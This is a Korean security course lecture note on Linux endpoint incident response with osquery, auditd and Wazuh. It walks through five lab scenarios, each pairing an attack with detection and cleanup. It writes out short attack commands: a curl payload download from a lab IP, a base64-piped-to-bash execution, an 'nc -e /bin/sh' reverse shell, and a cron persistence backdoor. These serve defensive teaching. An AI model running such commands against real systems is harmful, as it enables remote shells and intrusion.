



# Week 07 — Linux 엔드포인트 침해대응(IR) — victim 호스트 + analyst 분석가

> **본 주차 한 줄 요약**
>
> el34 의 **Linux 호스트**를 엔드포인트로 보고, 침해가 일어난 호스트를 **분석가 시점**으로 조사한다 —
> **victim 호스트**(우발적으로/공격으로 위협에 노출된 자리) + **analyst 분석가**(SIEM/osquery 로 위협을
> 조사하는 자리). W06 에서 배운 **osquery**(스냅샷) + **Wazuh**(SIEM) + **auth.log/auditd** 를 묶어,
> 방화벽(W02)·IPS(W03-04)·WAF(W05) 가 못 본 **호스트 내부 행위**를 잡는 케이스를 R/B/P 로 5건 푼다.
> (실시간 이벤트 스트림인 **sysmon-for-linux** 는 W11 에서 더한다.)

---

## 0. 학습 목표

본 주차가 끝나면 운영자(여러분)는 다음을 한다.

1. el34 의 Linux 엔드포인트(예: `el34-web`)가 어디에 있고 누구와 통신하는지, 어떤 텔레메트리를 내는지 말한다.
2. **두 페르소나**(victim/analyst)의 의미를 알고, 각자 어떤 도구/화면을 보는지 설명한다.
3. **Linux 의 핵심 텔레메트리** — `auth.log`(로그온/sudo), `osquery`(프로세스/소켓/cron/사용자), `auditd`(execve),
   FIM(파일 변경) — 을 보고 무엇이 일어났는지 1줄로 해석한다.
4. **Wazuh Linux agent** 가 어떤 로그/소스를 tail 해 매니저로 보내는지 `ossec.conf` 한 블록을 읽어 답한다.
5. SIEM(Wazuh) + osquery 로 **특정 호스트의 시간대별 행위**를 조회한다.
6. **R/B/P 시나리오 5건** — (a) 의심 외부 다운로드 (b) 인코딩된 셸 실행 (c) SSH 인증 실패 폭주
   (d) GTFOBins/LOLBins 류 의심 실행 (e) 지속성(persistence: cron/사용자/authorized_keys) — 을 재현·관찰·대응한다.
7. **방화벽(W02) + 엔드포인트(W07)** 가 함께 일하는 다층 방어의 1 그림을 그린다.
8. 분석가의 **SOP 3 단계**(Triage → Investigate → Contain)를 victim 호스트 사건에 적용한다.

> **본 주차의 시선** — 커널/내부 구현을 깊이 파지 않는다. 우리는 "엔드포인트를 운영하며 위협을 조사하는
> 사람"의 시선이다. **텔레메트리 + 조사 흐름(SOP) + R/B/P** 가 본 강의의 축. Windows Sysmon 의 Linux
> 대응물이 **sysmon-for-linux**(W11) 이며, 본 주차는 그 전 단계인 osquery + auditd + Wazuh 로 IR 을 한다.

---

## 1. 용어 8개

| 용어 | 뜻 | 운영자에게 의미 |
|------|----|----------------|
| 엔드포인트 (endpoint) | 사용자/서비스가 도는 호스트 | 침해의 흔한 시작점·최종 목적지 |
| EDR (Endpoint Detection & Response) | 호스트 행위·이벤트를 수집·탐지·대응 | "안티바이러스의 진화형". el34 는 osquery + auditd + Wazuh 의 EDR-like 조합 |
| osquery | OS 를 SQL 테이블로 질의(스냅샷) | 프로세스/소켓/cron/사용자/파일을 "지금 상태"로 조회 (W06) |
| auditd | 리눅스 커널 감사 — execve/syscall 로깅(이벤트) | "누가 무엇을 실행했나"의 이벤트 기록 |
| auth.log | sshd/su/sudo 인증 로그 | 로그온 성공/실패·권한 상승 추적 (`/var/log/auth.log`) |
| Wazuh agent (Linux) | 호스트의 로그/FIM/명령을 매니저로 전송 | el34 SIEM 의 호스트측 끝단 (ips/web 에 active) |
| FIM (File Integrity Monitoring) | 중요 파일 변경 감지 | persistence(authorized_keys/cron/바이너리) 탐지 |
| GTFOBins / LOLBins | OS 정상 바이너리로 공격하는 기법 | bash/python/nc/wget/find 등의 오용 — 차단이 아닌 **탐지** |

---

## 2. 두 페르소나 — victim 호스트 + analyst 분석가

같은 학습 환경을 두 시점으로 본다.

### 2.1 victim 호스트

- **자리**: 침해가 일어난 **Linux 호스트** (본 강의 예: `el34-web` — osquery + Wazuh agent 가 있는 실 호스트).
- **노출 경로**: 취약 서비스 익스플로잇, 탈취된 자격으로 SSH, 공급망/스크립트, 측면이동.
- **운영자에게의 의미**: 침해의 **현장**. "정상으로 위장한 프로세스·연결·파일·계정"이 여기 남는다.

### 2.2 analyst 분석가

- **자리**: 보안팀(SOC).
- **하는 일**: Wazuh 대시보드 alert triage, osquery 로 호스트 상태 질의, 시간순 timeline 분석, 대응.
- **사용 도구**: Wazuh 대시보드(`siem.el34.lab`) + `docker exec el34-siem agent_control` + victim 호스트에 osquery 질의.
- **운영자에게의 의미**: 침해의 **수습자**. 도구는 SIEM + osquery 중심.

> **el34 의 접근**: 분석가는 `ssh ccc@192.168.0.151` 로 호스트에 들어가 `docker exec el34-<host>` 로 victim 에
> osquery 질의를 하거나, `el34-siem` 의 Wazuh 로 alert/timeline 을 본다. (실 운영은 분석 PC 가 분리된다.)

### 2.3 둘이 어떻게 만나나 — 사건의 한 흐름



---

## 3. Linux 엔드포인트 핵심 텔레메트리

분석가가 매일 보는 것 — Windows 의 Security/Sysmon EID 에 1:1 대응하는 Linux 신호.

| 무엇 | Linux 신호 | osquery 질의 / 로그 | (참고) Windows 대응 |
|------|-----------|---------------------|---------------------|
| 로그온 성공/실패 | `auth.log` 의 Accepted/Failed password | `SELECT * FROM last;` / `last`, `lastb` | 4624/4625 |
| 권한 상승 | `auth.log` 의 sudo/su | `SELECT * FROM sudoers;` | 4672 |
| 프로세스 생성 | auditd `execve` | `SELECT pid,name,cmdline,parent FROM processes;` | Sysmon 1 / 4688 |
| 네트워크 연결 | `ss -tnp` | `SELECT pid,remote_address,remote_port FROM process_open_sockets;` | Sysmon 3 |
| 파일 생성/변경 | FIM (Wazuh syscheck) | `SELECT path,mtime,size FROM file WHERE path LIKE ...;` | Sysmon 11 |
| 사용자/계정 생성 | `auth.log` useradd | `SELECT username,uid,shell FROM users;` | 4720 |
| 지속성(persistence) | cron/systemd/authorized_keys | `SELECT * FROM crontab;` / `authorized_keys` 테이블 | Run keys / Services |

> **운영자가 외울 한 줄**: Linux 엔드포인트는 **프로세스(processes) + 소켓(process_open_sockets) + cron/users
> + auth.log** 만 잘 봐도 침해 분석의 70%. osquery 가 "지금 상태", auditd/auth.log 가 "일어난 사건".

---

## 4. osquery + auditd + FIM — 무엇을 잡고 무엇을 무시하나

Windows 의 SwiftOnSecurity Sysmon config 에 해당하는 Linux 의 "좋은 시작점"은 **osquery 표준 pack +
auditd 핵심 룰 + Wazuh syscheck(FIM)** 의 조합이다.

### 4.1 ON 으로 두는 것 (요지)

- **프로세스/소켓** — osquery `processes`, `process_open_sockets` (on-disk=0 인 프로세스 등 헌팅).
- **persistence 경로 FIM** — `/etc/cron.d`, `/etc/cron.*`, `/root/.ssh/authorized_keys`, `/etc/passwd|shadow`, `/etc/systemd/system`.
- **auth.log** — sshd/sudo (로그온·권한 상승).
- **auditd execve** — 핵심 바이너리(bash/python/nc/wget/curl) 실행 추적.

### 4.2 OFF / 잡음 감축

- 패키지 관리자(apt/dpkg) 정상 동작, cron 정기 작업 등 알려진 정상 행위는 제외/억제.

> 운영에서는 **표준 pack 을 시작점으로** 두고 자기 환경의 잡음을 점차 끈다. 처음부터 모든 syscall 을
> 잡으려 하면 SIEM 이 폭주한다 (W05 의 ModSec paranoia 와 같은 원리).

### 4.3 el34 의 적용

el34 의 Linux 호스트(`bastion/fw/ips/web`)에는 **osquery 5.23.0** 이 깔려 있고(W06), **ips/web** 에는
**Wazuh agent 4.10** 이 active 다. Wazuh 의 기본 syscheck(FIM) 가 `/etc`, `/root/.ssh`, `/usr/bin` 등을
감시하고, `auth.log` 를 ingest 한다. (호스트 전수에 agent 를 확장하는 작업은 W09 Wazuh 주차에서 다룬다.)

---

## 5. Wazuh Linux agent — 데이터 흐름

### 5.1 한 그림



### 5.2 ossec.conf 의 한 블록을 읽는다

Wazuh agent 의 `/var/ossec/etc/ossec.conf` 핵심 부분:

```xml
<localfile>
    <log_format>syslog</log_format>
    <location>/var/log/auth.log</location>
</localfile>

<syscheck>
    <directories check_all="yes" realtime="yes">/etc,/usr/bin,/usr/sbin</directories>
    <directories check_all="yes" realtime="yes">/root/.ssh</directories>
</syscheck>
```

- `<localfile>` — 어떤 로그를 tail (여기선 auth.log)
- `<syscheck>` — 어떤 디렉터리를 FIM 으로 감시 (persistence 경로)

> 운영자는 **auth.log localfile + persistence 경로 syscheck** 가 켜져 있는지 확인하면 엔드포인트 IR 의
> 토대가 선다. osquery 는 그 위에서 "지금 상태"를 즉시 질의하는 보조다.

### 5.3 매니저 쪽 — agent_control 로 가시화

el34 호스트에서:

```
docker exec el34-siem /var/ossec/bin/agent_control -l
```

→ `ID: 004, Name: web, IP: any, Active` 처럼 보이면 그 호스트의 데이터 흐름 정상. 대시보드 Discover/Agents
화면에 해당 agent 가 시간 흐름과 함께 이벤트를 쏟는다.

---

## 6. 분석가의 SIEM 워크플로 — Triage → Investigate → Contain

### 6.1 Triage (선별)

- 화면: Wazuh dashboard 의 **Alerts**.
- 보는 것: `rule.level`, `agent.name`, `rule.description`.
- 의사결정: 즉시 대응 / 조사 큐 / 무시(false positive 확정). 시간 예산: 알람당 ~30초.

### 6.2 Investigate (조사)

- 도구: Wazuh **Discover**(raw alert) + victim 호스트 **osquery** 질의.
- 흔한 흐름:
  - 의심 프로세스: `docker exec el34-web osqueryi --json "SELECT pid,name,cmdline FROM processes WHERE on_disk=0;"`
  - 의심 연결: `... "SELECT pid,remote_address,remote_port FROM process_open_sockets WHERE remote_port!=0;"`
  - persistence: `... "SELECT command,path FROM crontab;"` + authorized_keys/users
  - 로그온: `... "SELECT * FROM last;"` + auth.log 의 Failed/Accepted
- 사고 timeline 구축: 시간순 정렬 + 의심 행위 식별 (osquery 스냅샷 + Wazuh alert 시각 결합).

### 6.3 Contain (격리)

- 도구: 프로세스 종료(`kill`), persistence 제거(cron/사용자/키), 방화벽 룰(W02 의 nft set 에 의심 IP 추가),
  Wazuh active-response.
- 침해 호스트면: 네트워크 격리 → 증거 보존(메모리/디스크) → 분석.

> 본 강의 실습은 (a) Triage + (b) Investigate + 간단한 (c) Contain(제거)까지 다룬다. 자동 대응은 W10 에서.

---

## 7. R/B/P 시나리오 5건 (Linux 엔드포인트)

### 7.1 ep-s01 — 의심 외부 다운로드 → osquery 프로세스+소켓 합주

- Red (victim): `curl -s -o /tmp/evil.bin http://10.20.30.202:8080/payload.bin &` (외부에서 바이너리 끌어옴).
- 관찰 (analyst): osquery `processes`(curl + cmdline) + `process_open_sockets`(10.20.30.202:8080) + auth/auditd.
- Blue: fw 의 nft set 에 10.20.30.202 추가(W02) + 프로세스 종료 + /tmp 파일 제거.
- 교훈: **프로세스 + 소켓이 1 사건** 으로 묶인다 — analyst timeline 의 핵심.

### 7.2 ep-s02 — 인코딩된 셸 실행 (base64 | bash)

- Red: `echo aWQ= | base64 -d | bash` 또는 `python3 -c "import os;os.system('id')"`.
- 관찰: osquery `processes` 의 cmdline 에 `base64 -d | bash` / `python3 -c` 패턴 + auditd execve.
- Blue: cmdline 패턴 룰(base64/`-c`/`bash -i`) → high severity. 사용자 권한·셸 정책 검토.
- 교훈: **cmdline 패턴** 이 강력한 탐지 단서 (Windows 의 PowerShell `-EncodedCommand` 와 같은 발상).

### 7.3 ep-s03 — SSH 인증 실패 폭주 (auth.log)

- Red: 외부 공격자(.202)가 victim 의 SSH 에 틀린 비밀번호 반복 (W01 의 SSH brute 와 동일 패턴).
- 관찰: `auth.log` 의 `Failed password` 가 시간 윈도 안에 임계 초과 → Wazuh 5710/5712 그룹 룰.
- Blue: `frequency + timeframe + same_source_ip` 그룹 룰 (W01 과 동일) + fw 차단.
- 교훈: **el34 는 출처 IP 가 보존**되므로 auth.log·alert 의 src 가 곧 실제 공격자다 (XFF/MASQ 무관).

### 7.4 ep-s04 — GTFOBins/LOLBins 의심 실행

- Red: `nc -e /bin/sh 10.20.30.202 4444` (reverse shell) 또는 `find . -exec /bin/sh \;` 류 오용.
- 관찰: osquery `processes` 의 nc/find + 이상 cmdline + `process_open_sockets` 의 외부 4444.
- Blue: 정상 환경에서 드문 패턴(nc -e, sh 자식) 탐지 룰. 컨텍스트(부모/인자)로 판단.
- 교훈: **LOLBins 는 정상 바이너리라 차단이 아닌 탐지** — 부모/인자/연결의 맥락이 판정 기준.

### 7.5 ep-s05 — persistence(지속성) + 다층 방어

- Red: 새 사용자(`useradd`) / `authorized_keys` 에 키 추가 / `/etc/cron.d` 백도어 (W06 의 fakeintruder 확장).
- 관찰: osquery `users`/`authorized_keys`/`crontab` + Wazuh **FIM** alert(파일 변경) — 방화벽이 못 본 호스트 행위.
- Blue: persistence 제거(userdel / 키 삭제 / cron 제거) + 어떻게 들어왔는지 역추적.
- 교훈: **방화벽(W02) + 엔드포인트(W07) = 다층 방어**. 경계가 못 본 내부 지속성을 엔드포인트가 잡는다.

---

## 8. 다층 방어 — W02(방화벽) + W07(엔드포인트) 한 그림



- **방화벽** 이 ① 경계에서 차단/허용 — 통과한 것은 더 못 본다.
- **엔드포인트** 가 ② 호스트 내부 행위(프로세스/연결/파일/계정)를 본다 — 방화벽이 못 본 dmz/int 내부도 잡는다.
- **SIEM** 이 둘을 한 timeline 으로 묶는다 — analyst 가 그 timeline 으로 사건을 푼다.

---

## 9. 운영 트러블슈팅 — Linux 엔드포인트 빈출 4 가지

| 증상 | 확인 | 처치 |
|------|------|------|
| "호스트 agent 가 SIEM 에 안 보인다" | `agent_control -l` 에 해당 호스트 없음 | agent 등록(agent-auth), client.keys, 매니저 IP(10.20.32.100) 확인 |
| "auth.log 이벤트가 안 온다" | `ossec.conf` 의 `<localfile> /var/log/auth.log` 누락 | localfile 블록 추가 후 agent restart |
| "FIM(파일 변경) alert 가 안 뜬다" | syscheck 디렉터리 미등록 | `<syscheck><directories>` 에 persistence 경로 추가 |
| "osquery 결과가 비어 있다" | 테이블/권한 (일부는 root 필요) | `docker exec`(root) 로 질의, 테이블명/컬럼 확인 (W06) |

---

## 10. 핵심 정리 (8 줄)

1. **두 페르소나** — victim 호스트 + analyst 분석가. 같은 환경, 다른 시점/도구.
2. Linux 엔드포인트는 **processes + process_open_sockets + cron/users + auth.log** 만 잘 봐도 침해 분석 70%.
3. osquery = **"지금 상태"(스냅샷)**, auditd/auth.log = **"일어난 사건"(이벤트)**, FIM = **파일 변경**.
4. **Wazuh Linux agent** = ossec.conf `<localfile>`(auth.log) + `<syscheck>`(FIM) → 매니저 전송.
5. **agent_control -l** 에 호스트가 Active 면 데이터 흐름 정상.
6. 분석가 **SOP** = Triage → Investigate → Contain.
7. **방화벽 + 엔드포인트** = 다층 방어. 둘이 같이 봐야 사건이 풀린다.
8. **R/B/P 5건** — 다운로드 / 인코딩 셸 / SSH brute / LOLBins / persistence 의 Linux 패턴.

---

## 11. 과제

1. Wazuh agent 의 `ossec.conf` 에서 `<localfile> /var/log/auth.log` 와 `<syscheck>` 블록을 찾아 캡처하고
   무엇을 tail/감시하는지 1줄로 설명하라.
2. victim(el34-web)에서 `echo aWQ= | base64 -d | bash` 를 실행하고, osquery `processes` 의 cmdline 에서
   그 흔적을 찾아 캡처하라.
3. 외부에서 victim 의 SSH 에 틀린 비밀번호로 5회 시도해, `auth.log` 의 `Failed password` 가 5+ 증가했음을
   확인하라. (Wazuh agent 가 있는 호스트면 alert 도 확인)
4. `/etc/cron.d` 에 테스트 백도어를 만들고 osquery `crontab` + Wazuh FIM 에서 탐지한 뒤, **반드시 제거**하라.
5. (생각) **방화벽이 못 본 호스트 행위 3가지** 와 그것을 **엔드포인트가 어떻게 보는가** 를 el34 구조에서
   구체적으로 들고 1문단씩 쓰라.

---

## 12. 다음 주차 (W08) 예고 — 중간고사

W01–W07 의 5종 보안 솔루션(방화벽/IPS/WAF/SIEM/호스트 가시화) + 엔드포인트 IR 을 종합 실기로 점검한다.
한 공격 사건을 fw → ips → web → 엔드포인트 → SIEM 의 전 계층에서 추적·대응하는 능력을 평가한다.
